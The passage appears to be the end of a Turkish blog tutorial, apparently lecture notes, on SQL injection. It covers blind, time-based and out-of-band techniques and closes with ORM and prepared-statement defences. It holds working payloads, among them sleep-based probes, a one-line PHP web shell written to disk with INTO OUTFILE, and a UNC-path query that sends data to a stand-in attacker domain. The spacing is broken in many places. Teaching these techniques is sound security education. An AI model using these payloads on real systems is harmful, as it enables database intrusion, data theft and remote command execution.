- Bu  şeki l de  bi nar y  sear ch  mant ı ğı  i l e 
- ar adı ğı mı z  kar akt er i  bul muş  ol uyor uz.

<ht ml > HABER  VAR </ ht ml >

i f  r esul t . si ze( )  >  0;      pr i nt ( "haber  var ") el se:

`     `pr i nt ( "haber  yok")

Örneğin burada ASCII kullanalım. bize u değerinin ASCII karşılığını verecektir. bu değer de 117 olarak aşağıdaki görselde yer almaktadır.

ASCII Table

Buradaki tabloya göre yukarıda anlattığımız mantıkta olduğu gibi aradığımız ifadeyi kolay bir şekilde bulabiliriz artık.

4- Time-based SQLi

Peki o halde kodumuzu tekrar değiştirelim. Taslak kodumuzda sadece şu ifade yer alsın;

pr i nt ( "i l ker ")

Burada artık veritabanında aradığınız değeri bulsanız da bulamasanız da geri gelen cevap hep “ilker” ifadesi olacaktır.

Peki bu durumda ne yapmalıyız ?

Aşağıdaki gibi bir sorgu yapalım sırada:

SELECT  \*  FROM user s  WHERE  i d  =  I F( SUBSTRI NG( , , ) =' a' , sl eep( 5) , 0) ;

Burada yaptığımız işlemde, bilgisayarımızın browser’ından HTTP request’i çıktı, evimizdeki router’dan geçti, kurumun Firewall’ından geçti, load balancer’ınden döndü, aradaki api gateway’e geldi, arka taraftaki application server’ının controller’ına geldi, controller bunu alıp servise verdi, servis gidip data katmanından sql sorgusunu oluşturup veritabanına gönderdi, veritabanı sleep(5) diyene kadar buraya kadar saydığımız her şey bekleyecektir. Browser da bekleyecektir. Veritabanının 5 sn uyuması gerekecektir. Yani referans noktamız şu olacaktır; request ile response arasındaki zaman farkı 5'ten fazla ise aradığımız değeri bulduk demektir.

Burada veritabanının beklediğini görebilmekteyiz:

SELECT  \*  FROM user s  WHERE  i d  =  I F( 1=1,  sl eep( 5) , 0) ;

[Open in app ](https://rsci.app.link/?%24canonical_url=https%3A%2F%2Fmedium.com%2Fp%2F7bcbd5f3fe04&%7Efeature=LiOpenInAppButton&%7Echannel=ShowPostUnderUser&source=---two_column_layout_nav----------------------------------)

Buradaki test ortamımızda 3 satırlık veri olduğu için her birine yönelik işlem yapılır ve 5sn beklemek yerine 15sn beklemiş olur. Eğer 15sn beklemesini istemiyorsak da şu şekilde bir sorgu çalıştırabiliriz.

5- Out-of-Band SQLi

Şimdi kod yapımızı tekrar değiştirelim;

i d  =  r equest . get ( ' i d' )

r abbi t mq. pushTask( ' r epor t \_gener at e' , i d) pr i nt ( "sel am")

Web uygulaması, bizden aldığı değeri RabbitMQ isimli bir servise gönderdi. Artık sleep() ifadesini koysak bile veritabanı uyumayacaktır. Çünkü SQL injection bizim konuştuğumuz uygulamada yok. Bu uygulama bizden alıp başka bir yapıya göndermektedir.

INTO OUTFILE diske bir veri yazma işlevini yerine getirir. Windowsun bir özelliği vardır.

SELECT  ' <?=syst em( @$\_GET[ ' cmd' ] ) ; ?>'  I NTO  OUTFI LE  ' var / www/ ht ml / c99. php' ;

Burada samba bağlanır. domain’i çözmesi gerekir. subdomain’e biz artık başka şeyler yazabiliriz;

SELECT  ' i l ker '  I NTO  OUTFI LE  ' \ \ \ hacker . i l ker . com/ a' ;

Burada artık kendi sql sorgumuzu da çalıştırabiliriz;

SELECT  ' i l ker '  I NTO  OUTFI LE  ' \ \ \ ' +( SELECT  ' i l ker ' ) +' . i l ker . com/ a' ;

Biraz da bu meselenin defansif tarafını konuşalım. Kod yapımızı burada tekrar ele alalım;

i d  =  r equest . get ( ' i d' )

quer y  =  "SELET  \*  FROM haber l er  WHERE  i d  =  "+i d db. execut e( quer y)

pr i nt ( "sel am")

Günümüzdeki framework’lerin çoğunda bize kattıkları en büyük özellik ORM (Object to Relational Mapping) ‘dir.

Artık SQL sorgusu yazmak yerine sadece kod üzerinden veri çekmekteyiz.

ORM

cl ass  Haber l er ( Tabl e) :   i d  =  db. aut ( )

i d  =  r equest . get ( ' i d' ) Haber l er . f i l t er ( i d) . get ( )

/ / pr epar e  st at ement

quer y  =  "SELECT  \*  FROM haber l er  WHERE  i d  =  : i d"

db. execut e( quer y) pr i nt ( "sel am")

Son olarak da bonus bir not bırakalım;

SQL Injection, TIME BASED Payload’lar ile TESPİT EDİLİR !!!! sebebi şöyle;

‘-sleep(5)-’

SELECT  \*  FROM user s  i d  =  ' ' - sl eep( 5) - ' ' ;

SQL Injection’ın tipi ne olursa olsun böyle bir payload eklediğimizde veritabanı uyumaya geçecektir.

Time-based SQL Injection ile zafiyet tespiti yaptıktan sonra artık hangi türde SQL Injection olduğunu araştırabiliriz.

Buraya kadar okuduğunuz için teşekkür ederim. Aldığım notların tamamı bu şekildeydi. Yorum, soru ve önerilerinizi istediğiniz zaman iletebilirsiniz. Selametle…

KAYNAKÇA

Youtube: [Web Security 101 0x01 | SQL Injection’ı Bütünüyle Anlamak](https://www.youtube.com/watch?v=WtHnT73NaaQ)
https://medium.com/@ilkerylmz/sql-injectionı-bütünüyle-anlamak-mdisec-neler-anlattı-2-7bcbd5f3fe04 41/41

[ref1]: Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.058.png
